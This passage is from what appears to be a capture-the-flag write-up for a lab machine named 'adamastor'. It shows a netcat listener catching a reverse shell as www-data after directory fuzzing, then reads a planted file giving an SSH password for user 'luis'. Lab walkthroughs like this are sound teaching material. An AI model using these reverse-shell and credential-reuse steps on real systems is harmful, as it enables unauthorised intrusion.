 BINGO ! The directory is called `Database_Administration` and just using feroxbuster to fuzz directories actually triggered our reverse shell, look!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888          
listening on [any] 8888 ...
connect to [192.168.67.132] from (UNKNOWN) [192.168.67.130] 58750
Linux adamastor 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 06:50:11 up  1:42,  0 users,  load average: 0.14, 0.14, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### Enumerating the machine

Now that we're inside just doing a simple `ls` show us an interesting file, with something inside:

```
$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
t4k3_th1s_p4ssw0rd_l4st_34sy_th1ng_y0ull_s33_before_g01ng_NUTS.txt
tmp
usr
var
$ cat t4k3_th1s_p4ssw0rd_l4st_34sy_th1ng_y0ull_s33_before_g01ng_NUTS.txt
[*] ssh password for luis => 1u15c23473d4d4m45702
```

It seems we can connect through `ssh` with a user called `luis` and the password set as `1u15c23473d4d4m45702`, let's try !

